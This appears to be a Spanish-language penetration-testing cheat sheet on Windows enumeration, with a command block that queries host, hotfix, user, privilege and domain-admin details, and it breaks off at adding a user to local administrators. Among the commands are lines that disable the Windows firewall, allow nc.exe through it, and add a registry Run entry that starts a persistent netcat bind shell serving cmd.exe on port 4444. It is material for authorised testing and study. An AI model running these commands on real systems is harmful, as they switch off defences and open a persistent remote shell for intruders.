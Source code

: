 # Windows Enum

## Enumeración Básica

Hostname&#x20;

OS Nmae (Windows 7,8, etc)&#x20;

OS Build & Service Pack (Windows 7 SP1 7600)&#x20;

Os Architecture (x64/x86)&#x20;

Paquetes instalados (Para posibles elevaciones de servicios)

### Comandos manuales

{% code overflow="wrap" %}
```powershell
#info
hostname

systeminfo

#Hot Fix installations
wmic qfe get Caption,Description,HotFixID,InstalledOn

#Eula
type c:\\Windows\\System32\eula.txt

#Query state of Firewall, Disable Firewall, Allow a Service Through
#Query state of firewall:
netsh firewall show state

#Disable firewall
netsh.exe firewall set opmode mode=disable profile=all

#Allow service through firewall
netsh.exe firewall set portopening tcp 123 MYSERVICE enable all
netsh.exe firewall set allowedprogram C:\MYPROGRAM.exe
HKLM\software\microsoft\windows\ currentversion\run –d ‘C:\windows\system32\nc.exe -Ldp 4444 -e cmd.exe’ –v netcat
netsh firewall set allowedprogram c:\nc.exe allow_nc ENABLE

#Query current user and privilege information
whoami
whoami /all
whoami /user
whoami /groups
whoami /priv
[Users]
net users: list users
For more info on a user:
net user  (for local user)
net user  /domain (for a domain user)

#View domain admins:
net group "Domain Admins" /domain

#View name of domain controller:
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Group Policy\History" /v DC
Add user:
net users   /add

#Add user to local administrators group:
```